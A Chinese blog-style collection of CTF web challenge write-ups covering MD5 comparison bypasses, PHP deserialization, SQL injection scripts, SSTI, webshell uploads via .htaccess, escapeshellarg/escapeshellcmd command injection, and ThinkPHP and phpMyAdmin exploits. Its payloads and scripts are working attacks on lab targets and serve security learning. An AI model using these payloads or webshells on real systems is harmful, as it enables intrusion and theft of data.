> *   找到了md5(53660569009): Ùù¹’oR’8RB¾ßå
>     
>     
> *   找到了md5(55098175010): õ¬MI’or’9MJKö
>     
>     
> *   找到了md5(59763304323): 'Or’3Íèÿ*sJz
>     
>     
> *   找到了md5(60185044906): ævOèÔסª’oR’5¬,Ì
>     
>     
> *   找到了md5(68625783421): ! ñ’oR’5’¦æ°ìe
>     
>     
> *   找到了md5(70949326264): ]èº5 Ä’OR’6l

程序源码如下（自己写着玩，轻喷）：

```
# codeing = utf-8

import threading
import hashlib
import re
import itertools
import time
# r'\'or\'([1-9]+|0+[1-9])'
# r'\'or\''
pattern=re.compile(r'\'or\'([1-9]+|0+[1-9])',re.I)
item = itertools.count(1)

def thrfunc():
    while 1:
        s2 = ''
        temp = str(next(item))
        s1 = hashlib.md5(temp.encode(encoding='UTF-8')).hexdigest()
        for i in range(0, len(s1), 2):
            s2 = s2 + chr(int(s1[i:i + 2], 16))
        if re.search(pattern, s2):
            print("找到了md5(" + temp + "): " + s2)

threads=[]
for i in range(10):
    t = threading.Thread(target=thrfunc)
    threads.append(t)
    t.start() 
```

虽然不知道多整几个能用的值可以干什么，但是觉得自己写的程序跑出来答案就很爽🤣。

还有一个网上找到的能用的md5值：

```
content: 129581926211651571912466741651878684928
hex: 06da5430449f8f6f23dfc1276f722738
raw: \x06\xdaT0D\x9f\x8fo#\xdf\xc1'or'8
string: T0Do#'or'8 
```

以上是第一层。**其实看了源码里只验证了字符串是否等于`ffifdyop`我写的脚本里的值肯定通过不了**

第二层可以直接在源码中看到注释。

```
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend. 
```

简单的md5以0E开头

```
a=QNKCDZO&b=240610708 
```

第三层

```
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
} 
```

这一有一些不同的是md5比较使用了`===`不仅比较类型还比较值。但是md5有一个：

```
md5([1,2,3]) == md5([4,5,6]) == NULL 
```

所以传入两个数组，又能保证两个变量不相等，md5加密有都是NULL且类型是数组类型，注意数组里的值还是不可以一样的。

```
param1[]=1&param2[]=2 
```

* * *

# [ZJCTF 2019]NiZhuanSiWei

```
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```

先来一段[PHP伪协议总结](https://segmentfault.com/a/1190000018991087)，这题的第一步是判断传入text参数并读取内容，判断内容为**welcome to the zjctf**，使用`data://`伪协议。

```
?text=data://text/plain,welcome to the zjctf 
```

接下来是文件包含，有了提示`useless.php`肯定要读一读看看，使用`php://filter`伪协议。

```
?text=data://text/plain,welcome to the zjctf&file=php://filter/convert.base64-encode/resource=useless.php 
```

得到的内容

```
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?> 
```

并且文件包含下面有一个反序列化，又看到了`__tostring`函数，**当一个对象被当作字符串对待的时候，会触发这个魔术方法**。我构造的对象

```
<?php 
class Flag{  
    public $file="flag.php";  
}

$f = new Flag();
echo serialize($f);

//O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
```

在传入对象之前当然要把读取文件流改为正常包含文件了。最终payload

```
?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
```

* * *

# [CISCN2019 华北赛区 Day2 Web1]Hack World



很明显的sql注入，随便尝试一些语句有

> 1 >> Hello, glzjin wants a girlfriend.
> 
> 2 >> Do you want to be my girlfriend?
> 
> 3之后都是 >> Error Occured When Fetch Result.

输入一个单引号`1'`出现了`bool(false)`，是一个布尔类型返回，就很有可能是盲注之类的。测试的时候还发现空格被过滤了，空格被过滤可以尝试使用TAB制表符代替。

题目中也有提示

> ### All You Want Is In Table ‘flag’ and the column is ‘flag’

说明flag在flag表的flag字段中。以下是一个布尔盲注的脚本，思路就是查询flag的值使用`substr`函数每次截取一个字符，获得其`ascii`值再使用二分法确定具体的值，最后拼接输出。

```
import requests
import time

url = 'http://26670c55-697e-4520-ae0a-bd23a786cd72.node3.buuoj.cn/'
result = ''

for x in range(1, 50):
	high = 127
	low = 32
	mid = (low + high) // 2
	while high>low:
		payload = "if(ascii(substr((select	flag	from	flag),%d,1))>%d,1,2)" % (x, mid)
		data = {
			"id":payload
		}
		time.sleep(0.3)
		response = requests.post(url, data = data)
		if 'Hello' in response.text:
			low=mid+1
		else:
			high = mid
		mid = (low+high)/2

	result += chr(int(mid))
	print(result) 
```

* * *

# [极客大挑战 2019]HardSQL


还是sql注入题。尝试在输入框里输入`#`、`--+`时被拦下了，但是在url中使用%23通过了。尝试了union但是被过滤了，使用双写也不通过，和这道题同类型的题前面有Baby SQL、Easy SQL，考点还剩下的有盲注、报错注入、堆叠注入。尝试报错注入可以使用，我参考的[十种MySQL报错注入](https://www.cnblogs.com/wocalieshenmegui/p/5917967.html)。还需要注意空格是会被拦下的，url编码也不能通过，所以在语句中的表名需要使用`()`隔开，具体payload如下：

1.  爆表

```
?username=admin%27or(extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e)))%23&password=1 
```

当前表名是：H4rDsq1

2.  爆字段

```
?username=admin%27or(extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e)))%23&password=1 
```

当前表的字段有：id,username,password

1.  出数据

如果使用正常的查询语句会因为flag的长度太长，页面中的回显长度不能显示全，但是可以使用`left`和`right`函数：

> 语法：LEFT(ARG,LENGTH)、RIGHT(ARG,LENGTH)

这两个函数会用到选取的长度，如果想要拼成一个完整的flag，可以先用length查看总长度，计算以后拼一下

```
?username=admin%27or(extractvalue(1,concat(0x7e,(select(left(password,35))from(H4rDsq1)),0x7e)))%23&password=1 
```

flag{112bb5db-17a4-47e2-97b4-19

```
?username=admin%27or(extractvalue(1,concat(0x7e,(select(right(password,11))from(H4rDsq1)),0x7e)))%23&password=1 
```

dc295a017f}

* * *

# [网鼎杯 2018]Fakebook



是一个展示自己博客网址的列表，先随便注册一个



我填的是baidu的网址23333。这时的url是：

```
http://2cefe2a5-4e68-44ce-870c-3628c2500cd3.node3.buuoj.cn/view.php?no=1 
```

看到了no=1，应该想到了sql注入，我没有试出什么名堂，但是在网上找到了一个这道题的非预期解：[[网鼎杯2018]fakebook题解](https://www.cnblogs.com/kevinbruce656/p/12643338.html)，使用了`load_file`函数直接读取了flag文件。同样是空格被过滤，但是可以使用`/**/`绕过。

## 非预期解

```
?no=-1 union/**/select 1,2,3,4 
```

先使用上面的语句查看回显点。



找的了位置2的回显点，可以把函数替换在2的位置上。

```
?no=-1 union/**/select 1,load_file('/var/www/html/flag.php'),3,4 
```

参考师傅的博客中是使用了盲注获得flag的，其实执行以后使用页面的选取工具选取回显的标签块，可以在注释里找的到🤣

## 预期解

正常的sql注入一套查询，同样是使用`/**/`绕过空格过滤。

爆表

```
?no=-1%20union/***/select%201,group_concat(table_name),3,4%20from%20information_schema.tables%20where%20table_schema=database()%23 
```

爆字段

```
?no=-1 union/***/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users' %23 
```

出数据

```
?no=-1 union/***/select 1,group_concat(no,username,passwd,data),3,4 from users 
```

查询的结果是一大串字符串，但是在结尾一个PHP的序列化对象：

```
O:8:"UserInfo":3:{s:4:"name";s:7:"guobang";s:3:"age";i:18;s:4:"blog";s:20:"http://www.baidu.com";} 
```

说明网站是使用反序列化获取对应栏的数据，下面有一个iframe的标签，根据提示**the contents of his/her blog**，得知我们提供的网址会在这里显示，正好有一个php伪协议file://可以读取本地文件，思路就是：**使用伪协议读取flag作为blog网站回显在iframe的标签中**，所以构造一个序列化对象。

```
<?php

class UserInfo
{
    public $name = "guobang";
    public $age = 18;
    public $blog = "file:///var/www/html/flag.php";
}

$s = new UserInfo();
echo serialize($s); 
```

最终payload

```
?no=-1%20union/***/select%201,2,3,'O:8:"UserInfo":3:{s:4:"name";s:7:"guobang";s:3:"age";i:18;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' from%20users 
```

在iframe里面找，是一个data:text/html的数据格式，base64加密的噢。

* * *

# [网鼎杯 2020 青龙组]AreUSerialz

部分图



最下面有对于payload的限制：

```
function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}
if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

} 
```

需要payload中的字符ascii码值`大于`32`小于`125。注意到最后有一个`unserialize`函数，判断这道题考点是反序列化。接下来分析源码：

*   `process()`函数判断op的值，如果是`1`就写入文件，如果是`2`就读取文件。代码开头包含了`flag.php`文件，所以推测需要使用2操作数读取flag.php文件。
*   `write()`把对象中的`$content`属性值写入到`$filename`文件中，如果长度大于100会被拦下。
*   `read()`使用**file_get_contents()**函数读取文件。**正是我们想要的**。
*   `output()`输出内容。
*   `__destruct()`对象销毁时会执行的函数，需要注意的是**if**判断里的`$this->op === "2"`是强比较，并且会修改op的值为1（写文件），因为**"2"**是一个字符串类型的如果传入**整型的2**即可绕过。

所以我们构造一个对象**op**为2，**filename**为flag.php即可，读文件的时候肯定不是

接下来是反序列化时会遇到的问题，因为对象中属性的修饰是`protected`，序列化时需要保证一致的。

先给出自己创建的对象源码

```
<?php
class FileHandler {

    protected  $op=2;
    protected  $filename="/var/www/html/flag.php";
    protected  $content;
}

$c = new FileHandler();
echo serialize($c); 
```

1.  PHP7.1以上版本对属性类型不敏感、用public绕过:

```
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:22:"/var/www/html/flag.php";s:7:"content";N;} 
```

运行以后可以在网页注释中找到文件。绝对路径读取也可以，我第一次使用php://filter读再去解码也成功了。

```
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:52:"php://filter/convert.base64-encode/resource=flag.php";s:7:"content";N;} 
```

2.  序列化字符串中s替换为S，支持字符串用16进制，

```
O:11:"FileHandler":3:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";S:22:"/var/www/html/flag.php";S:10:"\00*\00content";N;} 
```

思路：https://blog.csdn.net/Oavinci/article/details/106998738

* * *

# [MRCTF2020]你传你🐎呢


测试后缀，php、phtml都被过滤了，htaccess可以，先传上特供的`.htaccess`

```
SetHandler application/x-httpd-php 
```



传图片马，我一直用的是GIF马，几次尝试都没通过，后来修改了`Content-Type: image/jpeg`可以了，说明Content-Type是GIF还不行，接下来直接传图片码


根据地址访问图片马的地址，使用system读文件还没成，用蚁剑连了执行执行ret=127还disable_function了



不过根目录下的flag文件还是可以正常读取，至于disable_function可以参考[【极客大挑战 2019】RCE ME](https://braindance.tk/2020/%5B%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019%5DRCE%20ME/)。

* * *

# [BJDCTF 2nd]fake google


就一个输入框，随便输入一个去看看，跳转以后



注释里有提示ssti，应该是模板注入，就在网上搜一个ssti的payload试试[SSTI (服务器模板注入)](https://blog.csdn.net/qq_40657585/article/details/83657220)

找到了一个直接读文件的payload

```
?name={{ c.__init__.__globals__['__builtins__'].open('/flag', 'r').read() }} 
```



* * *

# [GYCTF2020]Blacklist



sql注入，先试一试堆叠注入，可以执行，尝试select的时候返回了过滤内容

```
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject); 
```

前面还有一个堆叠注入的是新姿势**[强网杯 2019]随便注**，一种是使用prepare预处理语句，另一种是修改表名，根据上面的过滤内容，两种方法都被过滤了。先试试查看表：

```
-1';show tables;

FlagHere
words 
```

查看表结构：

```
-1';desc `FlagHere`; 
```

接下来是看的wp，学到了个新姿势：使用`HANDLER ... OPEN`语句，贴一个[官方文档](https://dev.mysql.com/doc/refman/8.0/en/handler.html)。

`HANDLER ... OPEN`语句打开一个表，使其可以使用后续`HANDLER ... READ`语句访问，该表对象未被其他会话共享，并且在会话调用`HANDLER ... CLOSE`或会话终止之前不会关闭

```
-1';handler FlagHere open;handler FlagHere read first;handler FlagHere close 
```



* * *

# [强网杯 2019]高明的黑客



下载源码以后一堆不可读的源码，但是里面有很多shell，看不懂所以找了wp，思路就是用脚本匹配文件中的shell，然后传参试一试每一个shell是否能用，抄脚本

```
 import  requests
import os
import re
import threading
import time

requests.adapters.DEFAULT_RETRIES = 8
session = requests.session()
session.keep_alive = False

sem=threading.Semaphore(30)

url="http://84fa677d-e4dd-47a1-9124-1823cc996d12.node3.buuoj.cn/"

path = "D:\DROPS\phpstudy_pro\WWW\ctf\src\\"
fileNames = os.listdir(path)

rrGET = re.compile(r"\$_GET\[\'(\w+)\'\]")
rrPOST = re.compile(r"\$_POST\[\'(\w+)\'\]")

local_file = open("flag.txt","w",encoding="utf-8")

def run(fileName):
    with sem:
        file = open(path+fileName,'r',encoding='utf-8')
        content = file.read()
        print("[+]checking: %s"%fileName)

        for i in rrGET.findall(content):
            r = session.get(url+"%s?%s=%s"%(fileName,i,"echo ~guobanghhh~"))
            if "~guobanghhh~" in r.text:
                flag = fileName + "中的" + i + "可以用！！！"
                print(flag)
                local_file.write(flag)

if __name__ == '__main__':
    run("xk0SzyKwfzw.php")
    start_time = time.time()  
    print("[start]程序开始:" + str(start_time))
    thread_list = []
    for fileName in fileNames:
        t = threading.Thread(target=run,args=(fileName,))
        thread_list.append(t)
    for t in thread_list:
        t.start()
    for t in thread_list:
        t.join() 
```

结果就是访问

```
http://dd1c66d5-66b2-4b82-a2a8-bf7bfbecdd97.node3.buuoj.cn/xk0SzyKwfzw.php?Efa5BVG=cat%20/flag 
```

获得flag

* * *

# [MRCTF2020]Ez_bypass

不截图了，主页没有代码格式，贴一个源码

```
I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else{
                echo 'You can not get it !';
            }

        }
        else{
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
}Please input first 
```

分析一波：

*   第7行是第一层需要md5的值相同但是两个变量不同，需要注意是强比较`===`噢。
*   第11、17行判断passwd是非数字并且若比较`==`等于1234567

第一个利用数组即可绕过

```
md5([1,2,3]) == md5([4,5,6]) == NULL 
```

第二个利用比较时会进行类型转换，字符串`1234567a`会被强制转换类型为整型的`1234567`

payload

```
?id[]=1&gg[]=2

POST
passwd=1234567a 
```

* * *

# [BUUCTF 2018]Online Tool

源码

```
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
} 
```

最后有一个system函数，但是使用的nmap的指令，经过一番搜索得知了nmap可以把结果存储在文件里，所以这道题也是道RCE。还有两个没见过的函数`escapeshellarg`、`escapeshellcmd`。

这道题利用了两个点

1.  nmap可以将扫描的结果存储在文件里。使用方法：[Nmap扫描结果的保存和输出](https://blog.csdn.net/weixin_34221036/article/details/92148628)

2.  escapeshellarg+escapeshellcmd同时使用有一些漏洞

    > [谈谈escapeshellarg参数绕过和注入的问题](http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/)
    > 
    > [PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)

参考博客整理一下这两个处理命令的函数同时使用时的问题：

1.  假如传入的参数为`172.17.0.2' -v -d a=1`
2.  首先经过`escapeshellarg`函数，这个函数会把单独的单引号`'`加上转义符`\`并使用单引号`'`括起来，再使用单引号`'`把整个参数括起来。这时候的参数是`'172.17.0.2'\'' -v -d a=1'`
3.  再进入`escapeshellcmd`函数，这个函数（从左至右会把落单的符号直接加转义符，其他什么都不做）遇到成对匹配的单引号`'`不过处理，转义符`\`再使用转义符转义，再略过一个成对的单引号`''`，最后一个单引号`'`再使用转义符转义。这时候的参数就成了`'172.17.0.2'\\'' -v -d a=1\'`
4.  最后执行的参数是`'172.17.0.2'\\'' -v -d a=1\'`，由于中间的`\\`被解释为`\`而不再是转义字符，所以后面的`'`没有被转义，与再后面的`'`配对儿成了一个空白符。所以可以简化为`172.17.0.2\ -v -d a=1'`

所以构造payload：

```
'<?php eval($_POST[_]) ?> -oG 1.php ' 
```

经过`escapeshellarg`函数会被解析成为：`''\''<?php eval($_POST[_]) ?> -oG 1.php '\'''`

再经过`escapeshellcmd`函数会被解析为：`''\\''<?php eval($_POST[_]) ?> -oG 1.php '\\'''`

注意最后单引号前面的那个空格很重要，如果是紧挨着的话文件名称就成了`1.php\`不在是php文件了。所以我们的payload最终在服务器端是：`\<?php eval($_POST[_]) ?> -oG 1.php \`。

加空格目的是为了防止文件名后缀中出现符号，加上空格就会舍去。

```
<?php
$host = "'<?php eval($_POST[_]) ?> -oG 1.php '";
echo $host."\n";
$host = escapeshellarg($host);
echo $host."\n";
$host = escapeshellcmd($host);
echo $host."\n"; 
```

结果：

```
'<?php eval() ?> -oG 1.php '
''\''<?php eval() ?> -oG 1.php '\'''
''\\''\<\?php eval\(\) \?\> -oG 1.php '\\''' 
```

最终请求payload

```
/?host='<?php eval($_POST[_]) ?> -oG 1.php ' 
```

执行指令时会创建一个sandbox文件夹，访问`$sandbox$/1.php`，POST传参



```
_=system('cat /flag'); 
```



* * *

# [RoarCTF 2019]Easy Java

是java写的web程序



考点是**WEB-INF/web.xml泄露**

> WEB-INF主要包含一下文件或目录:
> 
> /WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。
> 
> /WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中
> 
> /WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件
> 
> /WEB-INF/src/：源码目录，按照包名结构放置各个java文件。
> 
> /WEB-INF/database.properties：数据库配置文件
> 
> 漏洞检测以及利用方法：通过找到web.xml文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码

重点不在登陆界面，而是那个Help按钮，可以下载文件。



首先尝试去读web.xml文档，添加POST请求

```
filename=WEB-INF/web.xml 
```

可以读取web.xml文件：

```
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">

    <welcome-file-list>
        <welcome-file>Index</welcome-file>
    </welcome-file-list>

    <servlet>
        <servlet-name>IndexController</servlet-name>
        <servlet-class>com.wm.ctf.IndexController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>IndexController</servlet-name>
        <url-pattern>/Index</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>LoginController</servlet-name>
        <servlet-class>com.wm.ctf.LoginController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>LoginController</servlet-name>
        <url-pattern>/Login</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>DownloadController</servlet-name>
        <servlet-class>com.wm.ctf.DownloadController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>DownloadController</servlet-name>
        <url-pattern>/Download</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>FlagController</servlet-name>
        <servlet-class>com.wm.ctf.FlagController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>FlagController</servlet-name>
        <url-pattern>/Flag</url-pattern>
    </servlet-mapping>

</web-app> 
```

注意到了一个`FlagController`的控制器，它所在的类为`com.wm.ctf.FlagController`，前面也提到了编译文件所在的文件夹`/WEB-INF/classes/`，去这个文件夹下载`FlagController`相关的文件，还需要知道的是：Javaweb程序编译文件的目录结构是根据类名创建的，类名我们也知道了，所以下载：

```
filename=WEB-INF/classes/com/wm/ctf/FlagController.class 
```

class文件源码好多不可见字符



我选中的那段就是flag在的地方，看到了`==`就应该意识到是base64编码，但是base64编码里没有`<`这个字符，所以flag的密文就是

```
ZmxhZ3s0NmNhMTExMS01ZjI5LTQwYjMtYjUwMC1lYWMzZjkyMjU4ODF9Cg== 
```

* * *

# -----------------------以下部分施工中👷‍♂️------------------------

下面的都是没有整理，先把重要思路写下来了，然后有时间再配图

* * *

# [GKCTF2020]cve版签到

[CVE-2020-7066](https://blog.csdn.net/qq_45521281/article/details/106425266)

只有一个按钮，点击以后查看网页的Network请求中有一个

> Hint: Flag in localhost

且utl地址中有可控的参数，所以应该是使用ssrf。这里还有一个提示是在主页面那里

> You just view *.ctfhub.com

只可以访问以ctfhub.com结尾的网站，再根据cve使用%00截断访问：

```
?url=http://127.0.0.1%00.ctfhub.com 
```

第二个提示：

> Host must be end with ‘123’

必须以123结尾，所以最终payload

```
?url=http://127.0.0.123%00.ctfhub.com 
```

* * *

# [GXYCTF2019]禁止套娃

git泄露。我使用的https://github.com/gakki429/Git_Extract

```
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?> 
```

正则表达式匹配的只有函数的形式如`var_dump();`是一道[无参数RCE](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/)，看的题解自己整理的payload：

```
?exp=var_dump(readfile(array_rand(array_flip(scandir(current(localeconv())))))); 
```

一层一层解释：

localeconv() 函数返回一包含本地数字及货币格式信息的数组

**图片展示**

current() 返回数组中的当前单元, 默认取第一个值。别名pos()

到这里获得的是一个点

scandir() 遍历目录，是`.`的话就是列出当前目录。

此时输出：

```
array(5) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(4) ".git" [3]=> string(8) "flag.php" [4]=> string(9) "index.php" } 
```

这时的输出还是键值对的形式，我们需要使用`array_flip()`函数交换键值对，然后使用随机函数`array_rand()`从数组中随机取出一个或多个单元。因为正则的原因无法使用`file_get_contents()`，但是还有其他读取文件的函数:readfile()、highlight_file()和它的别名函数show_source()。

* * *

# [GXYCTF2019]BabyUpload

ph过滤，image/gif不能通过。image/jpe可以

上传.htaccess

```
SetHandler application/x-httpd-php 
```

上传码，但是不能是php代码，使用js

```
<script language="php">eval($_REQUEST[shell])</script> 
```

完工

* * *

# [BJDCTF 2nd]old-hack

ThinkPHP的[漏洞](https://blog.csdn.net/qq_38807738/article/details/86777541)

ThinkPHP5 5.0.23

```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=cat /flag 
```

* * *

# [安洵杯 2019]easy_web

看url一个img和cmd，页面中有一个图片的标签，和一个**md5 is funny ~**。把url中img的值进行解码发现图片名为`555.png`，尝试用同样的编码方式读取index.php，加密的编码依次为：hex–>base64–>base64。

index.php

```
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "</img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
<html>
<style>
  body{
   background:url(./bj.png)  no-repeat center center;
   background-size:cover;
   background-attachment:fixed;
   background-color:#CCCCCC;
}
</style>
<body>
</body>
</html> 
```

我不知道为什么，我的bp一定要在`&`前加一个空格才可以通过。

```
?cmd=uniq%20/flag

POST
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2 
```

读文件的绕过有

> | 1 | more:一页一页的显示档案内容 |
> | :-: | --- |
> | 2 | less:与 more 类似，但是比 more 更好的是，他可以[pg dn][pg up]翻页 |
> | 3 | head:查看头几行 |
> | 4 | tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示 |
> | 5 | tail:查看尾几行 |
> | 6 | nl：显示的时候，顺便输出行号 |
> | 7 | od:以二进制的方式读取档案内容 |
> | 8 | vi:一种编辑器，这个也可以查看 |
> | 9 | vim:一种编辑器，这个也可以查看 |
> | 10 | sort:可以查看 |
> | 11 | uniq:可以查看 |
> | 12 | file -f:报错出具体内容 |

摘自[命令执行漏洞利用及绕过方式总结](https://www.ghtwf01.cn/index.php/archives/273/)。

* * *

# [BJDCTF2020]Mark loves cat

git泄露

flag.php

```
<?php

$flag = file_get_contents('/flag'); 
```

index.php

```
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds); 
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}

echo "the flag is: ".$flag; 
```

尝试输出`$flag`即可。exit()函数退出时也会输出。

第一个不可能实现，如果POST或GET传入flag的话必然导致`$flag`修改，那么正好符合第二个if。

payload

```
GET
?yds=flag

POST(任意，但是需要保证不传flag)
is=233flag 
```

* * *

# [BJDCTF2020]The mystery of ip

hint.php里面有注释

> Do you know why i know your ip?

去flag.php尝试加入请求头x-forward-x、client-ip发现ip可以改变。然后是自己感觉网页很简单，突破点在请求头中，尝试了下ssti模板注入，发现成功了。

尝试了几个ssti的payload不行，但是提示了

> Uncaught --> Smarty Compiler:…

得知了这个是Smarty引擎，在网上尝试搜索这种类型的注入

```
X-Forwarded-For: {system('cat /flag')} 
```

[SSTI神器–Tplmap](https://github.com/epinna/tplmap)，看介绍是和sqlmap差不多的工具。

* * *

# [GWCTF 2019]我有一个数据库

页面是乱码，想知道内容了可以看下图

$$各种乱码图

对照的是古文码。是以GBK方式读取UTF-8编码的中文，我举个例子，使用vscode，先通过编码保存–>GBK，再通过编码打开–>UTF-8。内容如下

> 我有一个数据库，但里面什么也没有~
> 不信你找

提示是数据库了，那么果断尝试PHPmyadmin，访问成功，然后查看下版本，去网上搜索对应版本的漏洞

[phpmyadmin4.8.1后台getshell](https://www.secpulse.com/archives/72817.html)

payload

```
/phpmyadmin/index.php?target=db_sql.php%253f../../../../../../flag 
```

可以包含任意文件，理应可以包含数据库文件，在数据库表字段写shell，没成不知道数据库文件名称

* * *

# [BJDCTF2020]ZJCTF，不过如此

绕过

